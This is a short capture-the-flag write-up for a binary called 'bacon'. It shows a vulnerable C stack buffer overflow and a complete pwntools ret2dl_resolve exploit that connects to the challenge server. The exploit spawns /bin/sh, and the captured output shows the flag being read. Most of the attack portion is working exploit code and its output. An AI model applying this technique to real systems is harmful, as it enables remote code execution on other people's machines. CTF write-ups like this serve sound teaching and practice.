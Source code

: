 # Bacon

This is quite a good challenge. We were given a binary and it had a stackoverflow vulnerability, the program was:-

```C
int main()
{
  char buf[1036];
  read(0, buf, 1056)
}
```

Although, it had stackoverflow vulnerability I couldn't get to understand how to pwn this, since there wasn't anything to leak any address so the ret2libc was out of option here, then I thought of ret2dl_resolve, this technique I learned about does not require any address leak, it will exploit the `dl_runtime_resolve` to exploit the link map of the functions. Using pwntools's ROP module, it was a piece of cake.

Exploit:-

```py
from pwn import *


p = remote("jh2i.com", 50032)

rop = ROP("bacon")
elf = ELF("bacon")

dlresolve = Ret2dlresolvePayload(elf, symbol="system", args=["/bin/sh"])
rop.read(0, dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)

raw_rop = rop.chain()

pause()
payload = b"A"*1036
payload += raw_rop
payload += dlresolve.payload

p.send(payload)
p.interactive()
```

Running the exploit:-

```asm
0 [07:39:10] vagrant@oracle(oracle) pwn> python3 bacon.py 
[+] Opening connection to jh2i.com on port 50032: Done
[*] '/home/vagrant/CTFs/hacktivity/pwn/bacon'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Loading gadgets for '/home/vagrant/CTFs/hacktivity/pwn/bacon'
[*] Paused (press any to continue)
[*] Switching to interactive mode
$ ls
bacon
flag.txt
$ cat flag.txt
flag{don't_forget_to_take_out_the_grease}
$ 
[*] Interrupted
```